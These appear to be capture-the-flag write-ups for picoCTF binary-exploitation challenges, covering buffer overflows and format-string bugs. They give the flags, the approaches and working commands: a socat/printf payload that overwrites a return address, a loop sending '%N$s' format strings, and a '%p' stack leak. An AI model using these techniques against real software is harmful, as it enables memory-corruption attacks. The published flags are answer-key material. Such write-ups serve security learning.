 # buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

## Approach

- Connect to the instance with `$ socat - TCP4:saturn.picoctf.net:57579` and type a long string of `a`s.

```
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# buffer overflow 1

**Flag:** `picoCTF{addr3ss3s_ar3_3asy_b15b081e}`

## Approach

- Inputting short strings into the program always results into jumping to the same memory location.
- Input a long string of `a`s into the program. This results in a jump to `0x61616161`, which is the hex converted `utf-8` value of the character `a`.
- Using a non-repeating pattern generator (linked in references), we can find the exact offset created by the buffer, which is 44.

![buffer-value](images/Binary%20Exploitation/buffer%20overflow%201/buffer-val.png)

- To find the memory address at which the `win()` function is stored, we can use Rizin/Cutter's 'Disassembly' tab. The address is `0x080491f6`. Since this involves typing invalid `utf-8` characters, we will have to make use of `printf` to type the hex values directly.
- `nc` cannot easily pipe into `stdin`, so we can use `socat` instead.
- Now we can connect to the remote address:
```
$ socat - TCP4:saturn.picoctf.net:56983 < <(printf "123456789012345678901234567890123456789012ab\xf6\x91\x04\x08")
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## New concepts

1. `printf` entering hexadecimal values
2. `socat`'s working
3. Buffer overflowing to another function's values

## Incorrect methods tried

- Entering hex values directly into `stdin`
- Entering invalid `utf-8` characters into `stdin`
- Piping hex values using `echo`
- Piping the string into `nc`

## References

- https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
- https://www.codetable.net/ (https://www.codetable.net/hex/8)
- https://stackoverflow.com/a/36312514 (`socat`)
- https://stackoverflow.com/a/33702982 (`printf`)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

## Approach

- Examining the code, we can see that we have to complete 2 "orders". The first one expects the number of characters to exceed twice the buffer. The second one expects an "unintentional" string print.
- The first stage gives 3 options: `"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"`. The `Gr%114d_Cheese` option is correct as `%114d` prints at least 114 characters, which easily exceeds 64.
- The second stage also gives 3 options: `"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"`. The `Cla%sic_Che%s%steak` is the correct option has it has `%s`, which prints the flag.

## New concepts

1. `%d` with numbers in `printf()`
2. `printf()`'s and `scanf()`'s return values

## Incorrect methods tried

- Trial and error method

## References

- https://stackoverflow.com/questions/55579326/printf2d-in-c-programming (`%d` with numbers)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

## Approach

- The challenge has the tag `format_string`, and the source code has the following vulnarable line of code, which prints the input string without checking for format strings in the user's input.
```
   printf(story);
```
- The flag varible is made just before the reading of the input, so we can brute-force values till we get the flag, exiting the program with `ctrl + c` once the flag is found.
```
$ for i in {0..99}; do echo "%$i\$s" | nc saturn.picoctf.net 60505; done
```
```
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
- Just add `pico` to the start of this.

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# format string 1

**Flag:** `picoCTF{4n1m41_57y13_4x4_f14g_50396c64}`

## Approach

- Run the program: `nc mimas.picoctf.net 60139`
- Enter a long string og `%p,`:
```
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7625cc949a00,(nil),0x6d3880,0xa347834,0x7fff14630730,0x7625cc73ae60,0x7625cc95f4d0,0x1,0x7fff14630800,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x30355f673431665f,0x7d343663363933,0x7,0x7625cc9618d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9
Bye!
```
- Enter the outputted hexadecimal numbers into an ASCII converter to get the reversed flag (every 8 bytes): (after reversing)
```
!@ ÂÂÃ%vÂ8mÂGÂ£0cÃ¿`Â®sÃ%vÃÃ´ÂÃ%v cÃ¿picoCTF{4n1m41_57y13_4x4_f14g_50396c64}ÃÂÃ%v   #Pr0t3in EÂÃ6Â£	
```

## New concepts

1. `%p` in strings

## Incorrect methods tried

- Buffer overflowing to run a program after the 1024 characters

## References

- https://gchq.github.io/CyberChef/#recipe=Reverse('Line')From_Hex('Auto')Reverse('Character')&input=MHg0MDIxMTgsCihuaWwpLAoweDc2MjVjYzk0OWEwMCwKKG5pbCksCjB4NmQzODgwLAoweGEzNDc4MzQsCjB4N2ZmZjE0NjMwNzMwLAoweDc2MjVjYzczYWU2MCwKMHg3NjI1Y2M5NWY0ZDAsCjB4MSwKMHg3ZmZmMTQ2MzA4MDAsCihuaWwpLAoobmlsKSwKMHg3YjQ2NTQ0MzZmNjM2OTcwLAoweDM1NWYzMTM0NmQzMTZlMzQsCjB4MzQ3ODM0NWYzMzMxNzkzNywKMHgzMDM1NWY2NzM0MzE2NjVmLAoweDdkMzQzNjYzMzYzOTMzLAoweDcsCjB4NzYyNWNjOTYxOGQ4LAoweDIzMDAwMDAwMDcsCjB4MjA2ZTY5MzM3NDMwNzI1MCwKMHhhMzM2Yzc5NzQ1MywKMHg5&oeol=NEL

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

